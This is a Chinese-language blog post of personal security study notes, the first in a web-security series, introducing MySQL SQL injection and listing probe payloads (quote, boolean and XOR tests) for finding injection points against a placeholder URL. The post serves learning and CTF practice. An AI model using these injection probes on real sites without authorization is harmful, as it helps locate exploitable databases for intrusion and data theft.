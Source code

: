 ```yaml
---
layout:     post
title:      Web笔记（一）SQL注入之MySQL
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是MySQL的SQL注入。
date:       2020-11-26
author:     K4ys0n
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - MySQL
---
```



## 0x00 SQL注入简介

SQL注入就是通过把SQL命令插入到web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。

SQL注入发生位置可以是HTTP数据包中的任意位置。

为了方便说明，所有示例都用`http://www.xxx.com/1.php?id=1`作为注入点，id=1可能为字符型也可能为数值型，视具体情况而定。



## 0x01 判断有无注入点

```
# 测试网站反应
id=1-0	# 看有无报错，没有可能存在数值型注入，需进一步测试
id=1'	# 看有无报错，还可以尝试用双引号或者反斜杠测试

# 第一个正常，第二个异常，存在数值型注入点
id=1 and 1=1 -- -
id=1 and 1=2 -- -

# 第一个正常，第二个异常，存在字符型注入点
id=1' and '1'='1
id=1' and '1'='2
```
还可以用异或注入测试注入点：

```
# 如果第一个为真，第二个为假，存在数值型注入点
id=1^1^1
id=1^1

# 如果第一个为真，第二个为假，存在字符型注入点
id=1'^'1'^'1
id=1'^'1
```
